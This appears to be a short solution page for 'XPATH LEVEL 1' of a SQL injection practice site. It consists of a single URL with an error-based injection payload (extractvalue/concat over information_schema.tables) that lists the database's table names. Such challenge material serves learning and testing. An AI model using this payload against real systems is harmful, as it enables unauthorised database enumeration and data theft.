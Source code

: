 # [MAIN PAGE](http://root0x00.altervista.org/sqli/)

## XPATH LEVEL 1

```
http://root0x00.altervista.org/sqli/xpath.php?id=1%27%20and%20extractvalue(0x0a,concat(0x0a,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database())))--+
```
